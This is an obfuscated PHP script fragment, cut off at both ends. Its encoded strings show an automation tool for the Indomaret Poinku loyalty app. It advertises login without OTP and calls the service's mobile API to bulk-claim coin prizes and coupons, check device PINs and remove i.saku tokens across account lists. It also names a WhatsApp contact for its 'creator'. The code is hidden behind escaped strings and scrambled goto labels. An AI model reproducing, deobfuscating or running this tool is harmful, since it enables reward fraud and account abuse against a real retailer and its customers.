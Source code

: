 e56F517CC9("\150\164\164\x70\163\72\x2f\x2f\x65\x64\x74\163\x61\x70\160\x2e\151\156\144\157\155\141\x72\x65\164\x70\x6f\151\156\153\x75\56\143\x6f\155\x2f\154\x6f\x79\x61\154\164\x79\x2f\141\x70\151\57\155\157\x62\x69\x6c\x65\x2f\143\x6f\151\156\163\57\x70\x72\151\x7a\145\163\57\110\117\113\101\x30\x36\x50\x39\57\164\x6f\x6b\145\x6e\163\57\143\x6c\141\x69\x6d\x2f\x73\151\x6e\x67\154\145", $b69fb2a8ef, $ab4e84f9b8, $ed61132195, $E0795bf3af); goto Aee8a6931c; Ebcb27c0b4: if (!($e016f24359 == '')) { goto d30384bb13; } goto d83d245909; e2b43672b4: cb103f0886: goto e4e833aa8f; Ff0a5e00c9: echo "\xa"; goto Ba3e73e6d8; F9464c5efd: echo "\12"; goto Ddcc4c559f; E6288e5729: $Cfb08f11c4++; goto a6fc33895a; Aace808c1e: $f6217e19b6 = e814b21A02("\150\x74\164\160\x73\x3a\x2f\57\x65\x64\x74\x73\141\160\x70\x2e\151\156\x64\x6f\155\x61\x72\x65\x74\160\157\151\156\x6b\165\x2e\x63\157\155\57\x63\165\x73\x74\157\155\x65\162\x2f\x61\160\151\x2f\x72\x65\155\x6f\166\145\55\x69\x73\x61\153\x75\x2d\x74\157\153\145\156", $b69fb2a8ef, $ab4e84f9b8, $ed61132195, $E0795bf3af); goto fa9348f9da; d548093551: goto A9cb160ccd; goto C1883af734; B82e738d4a: Becf883ba3: goto c63fd5ed6a; Ddcc4c559f: echo @e947C49D94("\162\x65\x64", "\123\143\162\x69\x70\x74\x20\105\170\x70\x69\162\x65\x64\54\x20\110\x75\x62\x75\156\147\151\40\103\162\145\141\164\x6f\x72\x20\150\164\164\160\x73\x3a\57\57\x77\141\56\155\x65\57\66\62\x38\62\x31\67\x36\63\x35\70\x32\71\x35\xa"); goto d42827ef43; bbfbebf0d7: $C4bf9c2b9e = BbBe53a505(array("\174", "\xd"), $e67fcadf36)[3]; goto d1a4b073b7; aa548ee23e: $be6f419c43 = json_decode($e9891c9916, true); goto A497a8ec68; cea1353d34: echo @E947c49d94("\x6e\145\166\171", "\40\40\x20\x20\40\40\x20\x20\x20\40\40\x20\40\x20\x20\40\x41\101\x4d\111\x49\x4e\40"); goto e6630f63c6; Ea191fb2bb: echo @e947c49d94("\156\145\x76\x79", "\40\x7c\x20\123\x63\162\151\x70\164\40\111\x44\x4d\x20\x4c\x4f\107\111\x4e\x20\x50\117\111\116\113\x55\40\x54\x41\x4e\x50\101\40\117\124\120\12"); goto Be3895cf32; f6fd690b36: $ac613f38ea = json_decode($Ab318527b2, true); goto F0ad37378d; de1dbfb5b1: $da60728e5c; goto Ca5f844b20; f840198b08: $cde9345c58 = explode("\12", @file_get_contents("\146\157\x72\143\x65\x63\154\157\163\145")); goto Cca7aa51c4; Cb588118af: echo @e947c49D94("\160\165\162\160\x6c\145", "\x53\x74\141\164\165\x73\x20\40\x20\72\x20"); goto b2a2dd831b; a47c6d16b3: $E37d291d4b = str_replace("\xd", '', $C4bf9c2b9e); goto d0f45d2fff; Ab4b211daa: die; goto b8c829a655; c83e4f2f38: $cde9345c58 = explode("\xa", @file_get_contents("\x66\157\162\143\x65\143\154\x6f\x73\145")); goto d5830d36e4; C94bc11d86: echo "\xa"; goto D20f620ee9; aaf7ceca30: echo @E947c49D94("\171\x65\x6c\x6c\157\x77", "\x4e\141\x6d\x61\40\x4b\165\x70\x6f\x6e\x6e\x79\x61\40\40\x20\x20\x3a\40"); goto f9eb1ca8b4; ec4a5cc974: $dea2b386b7 = trim(fgets(STDIN)); goto Dd153ed55b; dbe340b25e: $ab4e84f9b8 = $a6baa2314d; goto d467256f8e; D70d33de1a: @unlink("\160\157\151\x6e\x68\x70"); goto a06dfd4de7; B219039edc: function DaB2b82cCa() { return sprintf("\x25\x30\64\x78\x25\x30\64\x78\45\60\x34\170\x25\60\x34\x78", mt_rand(0, 0xffff), mt_rand(0, 0xffff), mt_rand(0, 0xffff), mt_rand(0, 0xfff) | 0x4000, mt_rand(0, 0x3fff) | 0x8000, mt_rand(0, 0xffff), mt_rand(0, 0xffff), mt_rand(0, 0xffff)); } goto De0482f215; A497a8ec68: $Dd0af8c958 = @$be6f419c43["\155\x65\163\163\141\x67\x65"]; goto E1aa8ef6b4; B8729fecc1: echo "\12"; goto A4e835aa41; Ab0c2e02ba: sleep(2); goto Eccbbf2114; ab198e862e: $B44b3e6672 = count($F8756720e6) - 1; goto Ec48da9673; ca20bb9f4d: sleep(2); goto c62802b15e; b46cc0690d: b878f695d8: goto C477c111cf; Cbec06e25d: $Dd0af8c958 = @$be6f419c43["\155\145\163\163\x61\147\145"]; goto bfe8327b10; Ef0940b5f3: echo "\xa"; goto Bd5aba7a15; f9ffd49568: $e67fcadf36 = $a35d893883[$Cfb08f11c4]; goto Da2ec09964; af6e57e56a: goto Ed61970a20; goto da60abbcf4; e138bdfd9f: $A458fceeef = "\60"; goto d959d0735c; ba970d05e0: $B7498dabae = B321e5dB8E("\x68\164\164\160\163\x3a\x2f\57\x65\x64\164\x73\x61\x70\x70\x2e\151\156\144\157\155\141\x72\x65\x74\x70\157\x69\156\153\x75\x2e\x63\x6f\155\57\x63\x6f\x75\160\x6f\x6e\57\141\160\x69\x2f\155\157\x62\x69\x6c\145\x2f\x63\x6f\165\160\x6f\x6e\163\77\x75\156\x70\141\147\x65\x64\75\164\162\165\x65", $ab4e84f9b8, $ed61132195, $E0795bf3af); goto E84fce4e56; ec2d15072b: if (!($Ecd3a56b7a == '')) { goto d6df1d7d53; } goto b43c0781da; a8c515e1d9: $F24ec9a334 = round(microtime(true) * 1000); goto Aab5be4072; Dc8e28a4f1: die; goto A6fbbcfccc; dbe162020b: $Bd486802c2 = b321e5dB8E("\x68\x74\x74\160\x73\x3a\57\x2f\145\x64\x74\x73\141\x70\160\x2e\x69\x6e\144\157\x6d\141\162\x65\x74\x70\x6f\x69\156\153\165\56\x63\x6f\x6d\57\x6c\x6f\x79\x61\x6c\x74\171\x2f\x61\160\x69\x2f\155\x6f\x62\x69\x6c\145\x2f\160\157\151\x6e\x74\x73\x2f\155\145", $ab4e84f9b8, $ed61132195, $E0795bf3af); goto ed2e502f58; cdc2e38531: echo "\x4d\x75\154\141\x69\x20\x42\141\x72\x69\163\40\113\x65\40\40\x3a\x20"; goto ca140bd1e0; f89d5c42d0: echo @E947C49d94("\x79\145\x6c\154\157\x77", "\x7c\40\127\101\40\x30\x38\62\61\67\x36\x33\x35\x38\62\x39\65\40\xa"); goto Ae95d168a8; d6e9f6696f: echo "\12"; goto A8fd6b25f1; Cfc3b64d3e: $E9a3f081f2 = a1c3f3A54a("\x68\x74\x74\160\x73\x3a\57\57\x65\x64\164\163\x61\x70\160\x2e\x69\x6e\x64\x6f\x6d\x61\162\x65\x74\x70\x6f\x69\x6e\x6b\165\x2e\x63\x6f\155\x2f\x6c\x6f\147\x69\156\57\x61\160\x69\x2f\x6f\160\145\x6e\57\x70\x69\x6e\x2f\143\x68\145\143\153\x2d\x64\x65\166\x69\x63\145", $b69fb2a8ef, $ab4e84f9b8, $ed61132195); goto d6bb52a596; Dc001a15c6: $B2ffe07568 = date("\x64\x2d\155\x2d\131\x20\x7c\40\x48\x3a\x69\72\x73"); goto e39d43244d; F1828b42df: echo @E947C49D94("\156\145\166\171", $Dd0af8c958); goto aab4b8f052; E9d14af252: $F2c99fe745 = trim(fgets(STDIN)); goto E98332a9cb; cd2d9df1a9: echo "\xa"; goto e78b6f38b1; b3c1957dcc: $ac613f38ea = json_decode($F1f1297831, true); goto d28d4b7663; Fd7dff750b: goto F7296a51c3; goto efbf6d5372; F2bf448b2e: echo "\12"; goto dce095187e; e198360fcd: